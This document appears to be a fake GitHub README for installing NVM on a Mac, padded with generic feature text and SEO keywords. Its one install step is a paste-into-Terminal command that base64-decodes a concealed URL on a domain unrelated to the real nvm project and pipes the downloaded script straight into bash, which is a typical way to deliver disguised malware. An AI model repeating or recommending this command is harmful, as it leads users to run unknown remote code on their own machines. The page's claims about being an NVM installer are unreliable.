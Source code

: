 # 📦 NVM for Mac — Node Version Manager Installation Guide

![NVM on Mac Terminal](https://miro.medium.com/v2/resize:fit:1400/0*oMrR5ZBrFvgOsA48.jpg)

---

## 🚀 Installation

## Installation via a command in the terminal:

### Run the following command in your Terminal:
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is NVM?

**NVM (Node Version Manager)** is a powerful command-line utility that enables users to seamlessly manage and switch between multiple versions of **Node.js** on a single machine. This is especially valuable for developers who work on several projects that require different Node.js versions or configurations. Instead of being restricted to a single global Node installation, NVM empowers users to customize their Node environment per project, script, or terminal session.

NVM eliminates the pain of conflicting versions, making it easy to test projects with newer or older Node versions, ensuring compatibility and stability. It works by allowing you to install any version of Node.js directly from the terminal, and then switch to it with a single command. You can also uninstall versions that are no longer needed, freeing up system space and keeping your development environment clean.

Beyond just installing Node, NVM integrates smoothly into macOS, including support for **Intel and Apple Silicon (M1/M2/M3)** Macs. It supports common shell environments like `bash`, `zsh`, and `fish`, making it flexible for various user setups. Whether you're building full-stack web applications, experimenting with new JavaScript frameworks, or maintaining legacy codebases, NVM makes it significantly easier to work across environments and versions.

Moreover, NVM ensures that each Node version has its own associated `npm` installation, which helps you avoid dependency conflicts between projects. This separation is crucial in modern JavaScript development, where tooling and build processes can vary widely between teams and projects. 

Overall, **NVM for Mac** is an indispensable tool for modern developers using Node.js. It simplifies version management, improves workflow efficiency, and ensures your development environment remains consistent and isolated from system-wide changes. Whether you're a student, hobbyist, or professional engineer, NVM gives you full control over your Node development stack on macOS.

---

## ✅ Features

- 📥 Install multiple Node.js versions
- 🔀 Switch between Node versions on the fly
- 🔧 Set default Node version
- 🚀 Works with npm, yarn, and all JS tooling
- 💻 Supports Intel & M1/M2 Macs
- 🛠 Easy uninstall and cleanup

---

![NVM Installed Versions](https://tecadmin.net/wp-content/uploads/2020/11/nvm-list-installed-versions.png)

---

## 💻 Compatibility

- **macOS Monterey**, **Ventura**, **Sonoma**, and newer
- ✅ Apple Silicon (M1, M2, M3) and Intel Macs
- Works with **zsh**, **bash**, and **fish** shells

---

## 🔑 Keywords

nvm mac, install nvm mac, nvm install mac, mac install nvm, install nvm on mac, nvm for mac, install nvm macos, mac nvm, install nvm in mac, mac os install nvm, mac os nvm, nvm install mac os, nvm mac os, nvm install on mac, node version manager mac, download nvm for mac, install nvm on macos, mac node version manager, mac nvm install, mac os nvm install, nvm download mac, nvm in mac, nvm install in mac, nvm mac install, nvm on mac, install nvm mac m1, instal nvm mac, install node nvm mac, install node version manager mac, install nvm en mac
